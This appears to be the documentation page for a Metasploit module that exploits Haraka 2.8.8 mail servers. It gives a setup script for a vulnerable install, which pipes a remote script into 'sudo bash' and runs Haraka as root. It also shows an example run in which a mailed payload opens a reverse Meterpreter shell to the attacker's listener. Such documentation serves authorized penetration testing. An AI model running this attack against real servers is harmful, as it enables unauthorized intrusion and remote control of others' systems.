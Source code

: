 ## Vulnerable Application

  Setup the vulnerable Haraka install by running this script on Ubuntu, Debian or similar:

  ```
  #install nodejs and npm
  curl -sL https://deb.nodesource.com/setup_7.x | sudo -E bash -
  sudo apt install nodejs

  #Haraka setup
  wget https://github.com/haraka/Haraka/archive/v2.8.8.tar.gz
  tar xvzf v2.8.8.tar.gz
  cd Haraka-2.8.8/
  npm install npm
  npm install

  haraka -i haraka

  cat << EOF > haraka/config/plugins
  access
  rcpt_to.in_host_list
  data.headers
  attachment
  test_queue
  max_unrecognized_commands
  EOF

  echo haraka.test >> haraka/config/host_list

  # Launch haraka as root
  sudo haraka -c haraka
  ```

## Options

  **from_email**

  String used in the SMTP MAILFROM command

  **to_email**

  String used in the SMTP MAILTO command

  **lhost**

  The address to serve the payload from

  **rhost**

  The address or hostname to target

  **payload**

  Any compatible Metasploit payload

## Example Run

  ```
msf > use exploit/linux/smtp/harakiri
msf exploit(haraka) > set email_to root@haraka.test
email_to => root@haraka.test
msf exploit(haraka) > set payload linux/x64/meterpreter_reverse_http
payload => linux/x64/meterpreter_reverse_http
msf exploit(haraka) > run

[*] Started HTTP reverse handler on http://192.168.1.1:8080
[*] Exploiting...
[*] Using URL: http://192.168.1.1:8080/36CacHfIIBnBe3
[*] Sending mail to target server...
[*] http://192.168.1.1:8080 handling request from 192.168.1.2; (UUID: xoljaxxi) Redirecting stageless connection from /UJgmNdAvcM7RkNeSiIMMwg_phj2ODD0I0sgpuoWRXMCMYpHwI0ydcMlb4vVjgylZF9yr-gOpQu9aOibLROCaSBoN0tLHJRGCK0B4ZKg1aQy8LPB with UA 'Mozilla/5.0 (Windows NT 6.1; Trident/7.0; rv:11.0) like Gecko'
[*] http://192.168.1.1:8080 handling request from 192.168.1.2; (UUID: xoljaxxi) Attaching orphaned/stageless session...
[*] Meterpreter session 2 opened (192.168.1.1:8080 -> 192.168.1.2:42122) at 2017-05-10 22:41:06 -0500
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Server stopped.

meterpreter > exit
[*] Shutting down Meterpreter...

[*] 192.168.1.2 - Meterpreter session 2 closed.  Reason: User exit
msf exploit(haraka) >
  ```
